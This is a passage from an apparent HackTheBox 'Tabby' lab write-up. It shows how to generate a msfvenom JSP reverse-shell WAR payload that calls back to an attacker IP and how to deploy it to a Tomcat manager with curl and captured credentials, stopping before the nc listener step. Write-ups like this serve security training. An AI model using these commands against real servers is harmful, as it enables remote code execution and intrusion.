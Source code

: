 Now try logging in `host-manager webapp` With the cred we got. 
![website](/assets/img/Posts/loging.png)
Apache tomact allows us to create virtual hosts with a terminal using which we could inject a war payload by creating a new virtual host.

## Shell

let's create a new virtual host and uploading the reverse shell payload file
enter the following command to create a reverse shell payload using metasploit.
```shell
ezi0x00@kali:~/HTB/Tabby$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<vpn hackthebox ip> LPORT=4444 -f war > 0xN1ghtR1ngs.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes

ezi0x00@kali:~/HTB/Tabby$ ls -lah
total 12K
drwxr-xr-x  2 ezi0x00 ezi0x00 4.0K Nov  7 02:55 .
drwxr-xr-x 11 ezi0x00 ezi0x00 4.0K Nov  7 00:56 ..
-rw-r--r--  1 ezi0x00 ezi0x00 1.1K Nov  7 02:55 0xN1ghtR1ngs.war
```
Enter the following command to create a virtual host with payload you created payload.war
```shell
ezi0x00@kali:~/HTB/Tabby$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T 0xN1ghtR1ngs.war http://10.10.10.194:8080/manager/text/deploy?path=/0xN1ghtR1ngs
OK - Deployed application at context path [/0xN1ghtR1ngs]
```
Starting nc listeners and executing the shell